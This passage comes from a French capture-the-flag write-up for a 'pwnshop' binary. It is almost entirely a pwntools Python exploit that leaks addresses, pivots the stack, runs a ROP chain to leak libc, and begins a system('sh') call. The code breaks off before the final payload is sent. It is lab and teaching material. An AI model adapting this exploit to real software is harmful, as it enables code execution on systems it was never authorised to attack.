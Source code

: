 Avec ça nous somme capable de calculé l’adresse system et sh.

Et avec le code exploit notre exploit local ressemble à cela

```python
#!/usr/bin/env python3

from pwn import *

def main():
	io = process('./pwnshop')

	#STEP 1 Leak binary address

	io.sendlineafter('\n> ', '2')
	io.sendlineafter('What do you wish to sell? ', '')
	leak_padding = b'1'*8
	io.sendafter('How much do you want for it? ', leak_padding)

	binary_offset = io.recvline().split(b'1'*8)[1].split(b'?')[0]
	binary_offset = bytearray(binary_offset).ljust(8, b'\x00')
	binary_offset = u64(binary_offset, endian='little')
	binary_offset -= 0x40c0
	log.success(f'Leaked Binary Offset: {str(hex(binary_offset))}')

	#STEP 2 Stack Pivot

	got_puts = p64(binary_offset + 0x4018) #Adresse de puts lien pointeur mémoire
	plt_puts = p64(binary_offset + 0x1030) #Adresse du pointeur de puts
	pop_rdi = p64(binary_offset + 0x13c3) #Adresse d'un pop rdi qui nous permet de ne pas juste crash
	buy_function = p64(binary_offset + 0x132a) #Adresse de la fonction buy
	padding_to_rop_chain = b'a'*40

	rop_chain = pop_rdi + got_puts + plt_puts + buy_function
	padding_to_stack_pivot = (72 - len(padding_to_rop_chain) - len(rop_chain)) * b'b'
	sub_rsp = p64(0x1219 + binary_offset) #0x1219 venant de ROPGadget

	payload = padding_to_rop_chain + rop_chain + padding_to_stack_pivot + sub_rsp
	print(payload)

	io.sendlineafter('\n> ', '1')
	io.sendafter('Enter details: ', payload)

	leaked_puts_libc = io.recvline()[:6]
	leaked_puts_libc = bytearray(leaked_puts_libc).ljust(8, b'\x00')
	leaked_puts_libc = u64(leaked_puts_libc, endian='little')
	log.success(f'Leaked puts@GLIBCL Offset: {str(hex(leaked_puts_libc))}')

	#Find offset in LIBC
	libc_puts = 0x75e10  #ou 0x765f0
	libc_system = 0x49860 #ou 0x48e50
	libc_sh = 0x198882 #ou 18a156

	libc_offset = leaked_puts_libc - libc_puts

	system = p64(libc_offset + libc_system)
	log.info(f'Calculated System Location: {str(hex(u64(system)))}')
	sh = p64(libc_offset + libc_sh)
	log.info(f'Calculated Sh Location: {str(hex(u64(sh)))}')

	#STEP 4 Exploit
	rop_chain = pop_rdi + sh + system
	padding_to_stack_pivot = (72 - len(padding_to_rop_chain) - len(rop_chain)) * b'b'

```